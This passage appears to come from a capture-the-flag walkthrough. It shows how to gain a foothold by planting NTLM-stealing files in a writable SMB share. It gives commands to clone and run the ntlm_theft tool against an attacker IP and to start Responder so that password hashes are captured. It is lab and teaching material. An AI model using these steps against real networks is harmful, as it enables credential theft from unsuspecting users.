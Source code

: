 

![](https://i.imgur.com/TsEKR40.png)



- Checking the `onboarding` directory, looks like the files are been changed, so there must be an active user on this session


![](https://i.imgur.com/ASiO711.png)




- using [this](https://www.hackingarticles.in/multiple-files-to-capture-ntlm-hashes-ntlm-theft/) article, i was made to understand that if we could put files into a share, we can try to steal password hashes using a tool called NTLM_Theft and Responder


```bash
git clone https://github.com/Greenwolf/ntlm_theft
pip3 install xlsxwriter
```


![](https://i.imgur.com/P9fGC3f.png)



## [**FootHold**](#FootHold)



- Now go ahead and run this tool with the following syntax


```bash
cd ntlm_theft
python3 ntlm_theft.py -g all -s 10.11.69.221 -f test


# -g: generate. Here, we specify the file types (for related attacks) to generate

# -s: The IP address of our Kali machine, In this case (tun0)

# -f: filename
```



![](https://i.imgur.com/NhM27Ou.png)



- We can go ahead and upload the `.lnk` file to our target share, but before that start up our listener `responder`



```bash
sudo responder -I tun0
```
